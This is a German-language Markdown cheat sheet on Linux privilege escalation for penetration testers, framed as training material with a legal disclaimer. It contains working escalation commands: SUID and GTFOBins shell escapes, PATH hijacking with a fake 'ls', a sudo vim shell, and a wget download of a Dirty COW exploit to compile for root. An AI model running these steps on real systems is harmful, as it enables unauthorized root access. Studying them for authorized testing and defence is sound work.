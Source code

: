 # Linux Privilege Escalation

## 📁 Kontext & Ziel

Diese Datei dient als strukturiertes Cheat Sheet zur Privilege Escalation auf Linux-Systemen im Rahmen von Post-Exploitation. Sie hilft Pentestern und Sicherheitsanalysten, systematisch nach Wegen zu suchen, um aus eingeschränkten Benutzerrechten Root-Rechte zu erlangen. **Ausschließlich für legale Schulungszwecke gedacht.**

---

## 🔍 1. System Checks & Enumeration

### Grundlegende Informationen

```bash
uname -a              # Kernel- und Systeminformationen
cat /etc/os-release   # Distribution & Versionsinfo
id                    # Benutzer & Gruppen
whoami                # aktueller Nutzer
hostname              # Hostname anzeigen
```

### Berechtigungen

```bash
sudo -l               # Welche Befehle kann der Benutzer mit sudo ausführen?
groups                # Gruppenzugehörigkeit
```

### Filesystem nach Hinweisen durchsuchen

```bash
find / -perm -4000 2>/dev/null       # SUID-Binaries
find / -type f -perm -u=s 2>/dev/null
find / -writable -type d 2>/dev/null # beschreibbare Verzeichnisse
```

---

## ⚖️ 2. SUID-Binaries & Exploits

SUID-Binaries werden mit den Rechten des Dateieigentümer (oft root) ausgeführt.

### Bekannte gefährliche SUIDs:

```bash
/usr/bin/vim
/usr/bin/find
/usr/bin/nmap
/usr/bin/perl
/usr/bin/python
```

### GTFOBins — SUID Missbrauch

GTFOBins ist eine Sammlung von Binaries, die sich zur Escalation nutzen lassen:
[https://gtfobins.github.io/](https://gtfobins.github.io/)

Beispiel (wenn `find` SUID ist):

```bash
find . -exec /bin/sh -p \; -quit
```

---

## 📁 3. Exploitable Binaries & Schwachstellen

### PATH-Variable manipulieren

```bash
# Falls ein Skript ein nicht vollqualifiziertes Kommando wie 'ls' aufruft
# und root-Rechte hat:
export PATH=/tmp:$PATH
echo "/bin/sh" > /tmp/ls
chmod +x /tmp/ls
```

### Cronjobs & Writable Scripts

```bash
cat /etc/crontab
ls -la /etc/cron.*
# Suche nach Cronjobs, die als root laufen und beschreibbare Skripte ausführen
```

### Sudo ohne Passwort

```bash
# Wenn sudo -l sowas zeigt:
(root) NOPASSWD: /usr/bin/vim
sudo vim -c '!sh'
```

---

## 🚀 4. Kernel Exploits (lokale Ausnutzung)

Falls keine "Low Hanging Fruits" über SUIDs/Sudo/etc., dann auf Kernel-Level prüfen:

### Kernel-Version ermitteln

```bash
uname -r
```

### Exploit-Sammlung

* [https://www.exploit-db.com/](https://www.exploit-db.com/)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

> **Wichtig:** Nicht jeder Exploit funktioniert auf jeder Version. Führe sie in isolierter Umgebung aus (VM).

Beispiel: Dirty COW (CVE-2016-5195)

```bash
wget https://www.exploit-db.com/raw/40616
# Kompilieren und ausführen, um Root-Zugriff zu erlangen
```

---

## 🏗️ Tools zur Privilege Escalation

| Tool                                                                        | Zweck                                              |
| --------------------------------------------------------------------------- | -------------------------------------------------- |
| [linpeas.sh](https://github.com/carlospolop/PEASS-ng)                       | Automatisiertes Enumeration-Skript                 |
| [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) | Zeigt Kernel-Exploits für das Zielsystem an        |
| pspy                                                                        | Prozesse und Cronjobs ohne Root anzeigen           |
| LES (LinEnum)                                                               | Systematische Prüfung auf Escalation-Möglichkeiten |

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

## 🔨 Ethik & Rechtlicher Hinweis

Dieses Dokument dient **ausschließlich zu Schulungszwecken**.

* **Nutze dieses Wissen niemals für unautorisierte Zugriffe!**
* Nur in Testumgebungen oder mit ausdrücklicher Erlaubnis verwenden!

---

Stay legal. Stay ethical. 🚀
